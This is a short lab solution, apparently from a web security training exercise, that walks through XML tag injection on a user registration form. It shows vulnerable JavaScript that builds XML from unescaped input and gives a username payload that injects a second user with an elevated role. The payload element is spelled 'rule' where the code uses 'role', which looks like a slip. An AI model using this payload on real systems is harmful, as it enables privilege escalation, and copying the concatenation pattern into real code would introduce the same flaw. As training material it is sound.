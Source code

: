 ## Lab 1

### Solutions - Lab #1

Simple XML TAG injection exploitation warm-up: *D0 u w@nn@ b3 a l33t m3mb3r?*

Background

There are two types of users: leet and looser. By default, every new user is a looser. Find a way to become a leet member.
Exploitation steps

A valid XML structure is reported in the core.js file within the function `WSregister__old`.

As you can see in the previous implementation, the developers used a different approach that helps us to detect the XML structure in this scenario.
```xml
function WSregister__old() {
...
  var xml = '<?xml version="1.0" encoding="utf-8"?> ';
  xml += '<user>                                    ';
  xml += '    <role>2</role>                        ';
  xml += '    <name>' + name + '</name>             ';
  xml += '    <username>' + username + '</username> ';
  xml += '    <password>' + password + '</password> ';
  xml += '</user>                                   ';
...
}
```

Testing parameter name Registering:

- If we register a user, we can see that its name is echoed back in the welcome message and is encoded with htmlspecialchars.
- Furthermore, if we try to inject some tags (e.g., ), the application works and registers the new user. Therefore, this parameter is not injectable.

Testing parameter password:

- If we adopt the same approach with the password, we can see that even the password is not injectable!

Testing parameter username:

- The only injectable parameter is the username.

If we take advantage of the XML structure found in the core.js file we could easily inject our leet user as follows:
```xml
name:     useless
username: useless</username></user><user><rule>1</rule><name>l33t</name><username>l33t
password: l33t

The leet login will be:

username: l33t
password: l33t
```
